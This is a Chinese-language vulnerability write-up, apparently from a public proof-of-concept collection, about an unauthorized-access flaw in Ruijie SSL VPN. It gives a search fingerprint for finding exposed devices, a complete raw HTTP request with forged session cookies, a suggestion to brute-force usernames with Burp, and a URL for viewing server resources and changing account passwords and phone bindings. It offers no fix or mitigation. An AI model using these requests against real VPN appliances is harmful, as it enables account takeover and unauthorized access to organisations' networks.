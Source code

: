# 锐捷 SSL VPN 越权访问漏洞

# 锐捷 SSL VPN 越权访问漏洞

## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

## 漏洞影响

```
Ruijie SSL VPN
```

## 网络测绘

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi



![](/images/202202110919224.png)

POC请求包如下

```plain
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```plain
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

![](/images/202202110920240.png)

用户名正确时会返回敏感信息

![](/images/202202110920291.png)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](/images/202202110920639.png)

点击个人设置跳转页面即可修改账号信息

![](/images/202202110920944.png)

## 参考文章

https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973


